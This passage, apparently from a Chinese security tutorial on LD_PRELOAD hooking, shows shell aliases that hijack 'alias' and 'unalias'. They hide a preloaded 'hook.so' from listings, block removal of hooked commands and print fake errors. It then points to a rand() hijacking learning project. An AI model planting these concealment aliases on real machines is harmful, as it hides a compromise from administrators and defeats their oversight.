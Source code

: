 使用 alias 劫持 alias（？自己打自己）

```plain
alias alias='func(){ alias "$@" | grep -v unalias | grep -v hook.so;};func'
```

[![](assets/1708920000-3f1b9d784f80115d6164adea67a63202.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214164144432.png)

既然都是用 alias 进行的劫持，我们当然要避免 unalias，遂劫持 unalias

```plain
alias unalias='func(){ if [ $# != 0 ]; then if [ $* != "echo" ]&&[ $* != "env" ]&&[ $* != "set" ]&&[ $* != "export" ]&&[ $* != "alias" ]&&[ $* != "unalias" ]; then unalias $*;else echo "-bash: unalias: ${*}: not found";fi;else echo "unalias: usage: unalias [-a] name [name ...]";fi;};func'
```

### intersting

#### 当随机不再随机？

Number Guessing Game 的猜数字游戏玩法并不多，游戏规则通常是每轮生成一个固定数字并提供若干次的猜测机会

我们通过二分法来不断缩小正确数字的范围最后定位到精确数字

那么如果这个游戏规则是每次生成一个随机数并且只有一次猜测机会，我们如何赢得这场游戏？

[https://github.com/ProfessionallyEvil/LD\_PRELOAD-rand-Hijack-Example.git](https://github.com/ProfessionallyEvil/LD_PRELOAD-rand-Hijack-Example.git)

通过这个小项目学习 LD\_PRELOAd 劫持 rand 函数

├── LICENSE  
├── Makefile  
├── README.md  
└── src  
├── guessing\_game.c  
└── rand\_hijack.c
